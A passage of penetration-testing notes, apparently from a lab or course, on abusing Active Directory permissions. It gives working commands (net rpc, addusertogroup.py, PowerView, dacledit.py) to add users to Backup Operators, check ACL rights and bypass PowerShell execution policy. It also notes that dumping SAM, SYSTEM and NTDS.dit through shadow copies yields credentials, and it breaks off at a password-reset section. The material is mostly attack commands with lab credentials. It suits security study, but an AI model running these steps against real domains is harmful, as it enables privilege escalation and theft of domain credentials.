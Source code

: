 #### Add member from Linux

```bash
# Check group membership
net rpc group members 'Backup Operators' -U zencorp.local/john%pass123 -S 10.129.205.81

# ADd holly to Backup Operators
net rpc group addmem 'Backup Operators' holly -U zencorp.local/john%pass123 -S 10.129.205.81
```

If acces denied use addusertogroup.py

```bash
addusertogroup.py -d zencorp.local -g "Backup Operators" -a holly -u john -p pass132
```

{% embed url="https://github.com/juliourena/ActiveDirectoryScripts/blob/main/Python/addusertogroup.py" %}

Check rights from Windows

```powershell
Set-ExecutionPolicy Bypass -Scope CurrentUser -Force
Import-Module .\PowerView.ps1
$userSID = (Get-DomainUser -Identity pedro).objectsid
Get-DomainObjectAcl -Identity 'Backup Operators' -ResolveGUIDs | ?{$_.SecurityIdentifier -eq $userSID}
```

Add Member from Windows

```powershell
# Check group membership
net localgroup "Backup Operators"
net group "Backup Operators" /domain

# Add Member
Add-DomainGroupMember -Identity "Backup Operators" -Members john 
```

{% hint style="info" %}
&#x41;_&#x73; member of backup and with SeBackupPrivileg we can copy SAM & SYSTEM hive but also need NTDS.dit since its AD. This can be done by creating a  Shadow Copy and RoboCopy._
{% endhint %}

### <mark style="color:yellow;">ForceChangePassword</mark>

Extended access right that allows users to reset the passwords of other accounts. Possible with `GenericAll`, `AllExtendedRights`, or `User-Force-Change-Password`.&#x20;

#### Check rights

```bash
dacledit.py -principal john -target holly -dc-ip 10.129.205.81 zencorp.local/pedro:pass123
```

#### Change password
